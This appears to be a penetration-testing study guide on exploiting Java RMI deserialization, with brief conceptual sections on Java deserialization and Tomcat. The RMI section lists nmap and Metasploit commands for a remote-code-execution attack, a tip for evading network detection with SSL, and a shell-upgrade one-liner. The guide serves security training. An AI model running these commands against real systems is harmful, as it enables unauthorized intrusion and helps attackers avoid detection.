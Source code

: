 The Java RMI Registry is a component of the Java RMI framework. It serves as a simple naming service, allowing remote objects to be registered with unique names. Clients can then look up these names in the registry to obtain references to remote objects, enabling them to invoke methods on these objects from a remote location.

Serializing objects in Java RMI is the process of converting Java objects into a stream of bytes so that they can be transmitted over the network. This is essential for passing objects between different JVMs in a distributed system. However, improper handling of object serialization can lead to security vulnerabilities.

Attackers can exploit insecure object deserialization in Java RMI by sending maliciously crafted serialized objects to the server. When these objects are deserialized on the server side, they can trigger arbitrary code execution, leading to remote code execution (RCE) attacks. This allows attackers to compromise the security of the system, gain unauthorized access, or perform other malicious activities.

The Java RMI Registry is typically found on 1099 TCP port.
`nmap -sT -sV <TargetIP> -p 1099`: to check if the port is open.
Note that sometimes, RMI Registry endpoint can be found listening on non-standard ports.

`msfconsole -q`, `search java rmi`, `use exploit/multi/misc/java_rmi_server`, `show options`, `set RHOST <TargetIP>`, `run -j`: to run the attack.

Note that to evade (some) over-the-wire heuristics detection solutions, we can `set SSL true` and also set the `SSLCert` to your custom SSL certificate.

Once a shell is obtained, we can upgrate it with: `python -c 'import pty; pty.spawn("/bin/sh")'`.

### Exploiting Java Deserialization - Study Guide

The vulnerability class known as *Java Deserialization* refers to a security vulnerability category that occurs when a Java application deserializes serialized objects in an insecure manner. In Java, object serialization is the process of converting objects into a stream of bytes, which can be saved to disk or transferred over a network. Deserialization is the reverse process, where a stream of bytes is converted back into an object.

Java deserialization vulnerabilities can be exploited by attackers to execute arbitrary code on the target system. Attackers can send maliciously serialized objects containing harmful payloads. When these objects are deserialized by the application, the malicious payload can be executed, allowing attackers to compromise the security of the system and gain unauthorized access.

This type of vulnerability is particularly dangerous because it can be exploited in many Java libraries and frameworks that use object deserialization, making numerous Java applications vulnerable. Mitigating these vulnerabilities requires proper handling of object deserialization, including checking deserialized data and validating object types.

### Exploiting Tomcat - Study Guide

*Tomcat* is a specialized web server, designed specifically for hosting Java web applications. It provides an environment for running Java Servlets and JavaServer Pages (JSP).

Java Servlets are Java components that extend the functionality of a web server. You can think of a servlet as a small Java program that runs on the server-side and handles HTTP requests from clients.

JavaServer Pages (JSP) allow you to embed Java code directly into HTML pages, similar to how JavaScript code can be embedded in HTML pages. For example, a JSP page may contain Java code that interacts with a database to retrieve data and dynamically display it on the page.
